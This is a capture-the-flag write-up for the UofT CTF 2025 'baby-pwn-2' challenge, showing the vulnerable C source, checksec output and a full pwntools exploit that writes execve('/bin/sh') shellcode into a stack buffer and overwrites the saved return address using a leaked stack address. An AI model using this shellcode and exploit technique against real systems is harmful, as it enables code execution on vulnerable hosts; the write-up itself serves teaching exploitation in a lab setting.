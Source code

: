 ```yaml
---
layout: writeup
category: UofT-CTF-2025
chall_description: 
points: 100
solves: 264
tags: pwn pwn/buffer-overflow pwn/ret2win
date: 2025-1-12
comments: false
---
```


Here's a baby pwn challenge for you to try out. Can you get the flag?

nc 34.162.142.123 5000

Author: atom

[baby-pwn-2.zip](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/UofT-CTF-2025/baby-pwn-2.zip)  

---

We're provided the binary along with the source file:  

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function()
{
    char buffer[64];
    printf("Stack address leak: %p\n", buffer);
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the baby pwn 2 challenge!\n");
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

`checksec` output:  

```yaml
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

`NX` is disabled --> implies shellcode is likely the solution.  

We also have a simple buffer overflow of 128 bytes read into the 64 byte `buffer`. And we're given a stack leak of the address of `buffer`.  

Basically, we can just write shellcode into `buffer`, and then overwrite saved RIP with the address of `buffer` that was leaked by the program. Then, the program will jump to our shellcode instructions in `buffer`, and run whatever we want!  

For the shellcode, we can create a pretty simple one to call `system("/bin/sh\x00")` (null-terminated because that's how C interprets strings!).  

Here's the exploit:  

```py
#-----------RIP OFFSET------------#
# send(cyclic(128, n=8), b': ')
# p.interactive()
# exit()

#--------------LEAK---------------#
p.recvuntil(b': ')
buffer = int(p.recvline(), 16)

#--------------WIN----------------#
offset = cyclic_find('jaaaaaaa', n=8)
payload = bytes(asm('''
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, SYS_execve
syscall
'''))
payload = payload.ljust(offset, b'\x00')
payload += p64(buffer)
send(payload, b': ')
```

And we get the flag!  

    uoftctf{sh3llc0d3_1s_pr3tty_c00l}

Full script:  

```py
# Useful references:
# https://gist.github.com/anvbis/64907e4f90974c4bdd930baeb705dedf

from pwn import *
import sys
import os

#---------HELPER FUNCTIONS---------#

def get_leak(before: bytes, end: bytes=b'\n') -> int:
    p.recvuntil(before)
    return int(p.recvuntil(end).decode('ascii')[:-1], 16)

def send(payload: bytes, before: bytes=b'', line: bool=True) -> int:
    payload = payload + (b'\n' if line else b'')
    if before == b'':
        p.send(payload)
    else:
        p.sendafter(before, payload)


#---------SETUP---------#

args = list(map(lambda s: s.upper(), sys.argv))
_libcs = list(filter(lambda s: 'libc.so.6' in s, os.listdir()))
_lds = list(filter(lambda s: 'ld' == s[:2], os.listdir()))

elf = ELF("baby-pwn-2") #------TODO------#
libc = _libcs[0] if len(_libcs) else elf.libc
ld = _lds[0] if len(_lds) else None

context.binary = elf
context.log_level = "DEBUG"

gdbscript = '''
# 
'''

if 'REMOTE' in args:
    p = remote('34.162.119.16', 5000) #------TODO------#
else:
    p = process([elf.path])
    gdb.attach(p, gdbscript=gdbscript)


###################################
#==========BEGIN EXPLOIT==========#
###################################

#-----------RIP OFFSET------------#
# send(cyclic(128, n=8), b': ')
# p.interactive()
# exit()

#--------------LEAK---------------#
p.recvuntil(b': ')
buffer = int(p.recvline(), 16)

#--------------WIN----------------#
offset = cyclic_find('jaaaaaaa', n=8)
payload = bytes(asm('''
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, SYS_execve
syscall
'''))
payload = payload.ljust(offset, b'\x00')
payload += p64(buffer)
send(payload, b': ')

###################################
#===========END EXPLOIT===========#
###################################

p.interactive()
p.close()

# uoftctf{sh3llc0d3_1s_pr3tty_c00l}
```